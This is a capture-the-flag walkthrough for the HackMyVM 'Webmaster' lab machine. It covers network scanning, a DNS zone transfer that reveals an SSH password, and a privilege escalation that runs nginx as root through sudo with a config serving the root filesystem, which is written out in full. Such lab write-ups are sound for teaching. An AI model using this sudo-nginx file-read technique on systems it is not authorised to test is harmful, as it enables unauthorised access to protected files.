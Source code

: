 # **Webmaster | HackMyVMM**
***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/92e91392-f94e-4ff4-b8f5-c3a26d291308)

## **Difficulty = Easy**
***



First things first, scan the network to discover live host


```bash
nmap -sn 192.168.0.0/24
```



![](https://i.imgur.com/jn0GrKz.png)



Running our nmap scan we discovered 3 open ports


```bash
# Nmap 7.94 scan initiated Fri Dec  8 09:29:40 2023 as: nmap -p- -sCV -v -T4 -oN logs.txt --min-rate=1000 192.168.0.158
Nmap scan report for webmaster (192.168.0.158)
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7e:d2:d5:d0:45:36:d7:c9:ed:3e:1d:5c:86:fb:e4 (RSA)
|   256 04:9d:9a:de:af:31:33:1c:7c:24:4a:97:38:76:f5:f7 (ECDSA)
|_  256 b0:8c:ed:ea:13:0f:03:2a:f3:60:8a:c3:ba:68:4a:be (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.94%I=7%D=12/8%Time=6572D409%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20curren
SF:tly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec  8 09:30:14 2023 -- 1 IP address (1 host up) scanned in 34.28 seconds
```


Navigating to port `80/HTTP` we have this meme 😂 (I hope this teaches people out there not to store password in `.TXT` files, Use a Password Manager instead!!)



![](https://i.imgur.com/ior02HK.png)



Viewing **Page-Source** we have this comments


![](https://i.imgur.com/rgK9fys.png)



As usual we can go ahead and add this to our `/etc/hosts` file


![](https://i.imgur.com/wQEJO11.png)



since port `53/DNS` is opened we can go ahead and do a zone transfer attack


![](https://i.imgur.com/GYUn7db.png)

Hell yeah, something looks odd here though, in the `TXT` records we have the text `Myhiddenpazzword` and then it is linked to the subdomain **john.webmaster.hmv**, let go ahead and try to login via SSH with this


![](https://i.imgur.com/UXQYT4S.png)


So definitely **John's** password is `Myhiddenpazzword`, Running `sudo -l` we have permissions to run `nginx` as root using the **sudo** command


![](https://i.imgur.com/hOKh8WH.png)



We can go ahead and host our `/` directory via nginx then get the root flag as i won't be escalating privileges to root, but performing an horizontal privilege escalation, Save the file below on **John's** home folder and call it `whatever.conf`


```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```



Now run `nginx` with **sudo** pointing to the config file as this we host the `/` directory on our localhost running on port `1337`


```bash
sudo /usr/sbin/nginx -c /home/john/whatever.conf 
```


![](https://i.imgur.com/kpsMSvj.png)



The server does not seem to have `curl` installed but it does have `wget`, so we can use `wget` to download the root flag

```bash
wget  127.0.0.1:1337/root/root.txt
```


![](https://i.imgur.com/EugfhGy.png)



Have fun 🤟


![](https://i.imgur.com/3ES6NRC.png)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



